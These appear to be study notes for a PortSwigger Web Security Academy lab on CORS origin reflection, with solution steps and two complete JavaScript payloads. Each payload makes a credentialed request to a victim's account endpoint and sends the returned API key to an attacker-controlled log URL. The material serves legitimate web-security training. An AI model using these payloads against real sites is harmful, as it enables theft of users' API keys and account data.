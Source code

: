 CORS Portswigger: https://portswigger.net/web-security/cors


# 1)Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

 ####  Solution

1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
    
    `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

Rana khalil: 
Lab video:https://www.youtube.com/watch?v=XTFDst3TjMM&ab_channel=RanaKhalil
Lab solution:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/notes.txt
HTML script:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/cors-lab-01.html



```
Lab #1 - CORS vulnerability with basic origin reflection

Target Goal - exploit the CORS misconfiguration to retrieve the administrator's API key

Creds - wiener:peter

Analysis:

Testing for CORS misconfigurations:
1. change the origin to an arbitrary value / True
2.
```

Html
```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0acf00c80446860280902124001f00f0.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
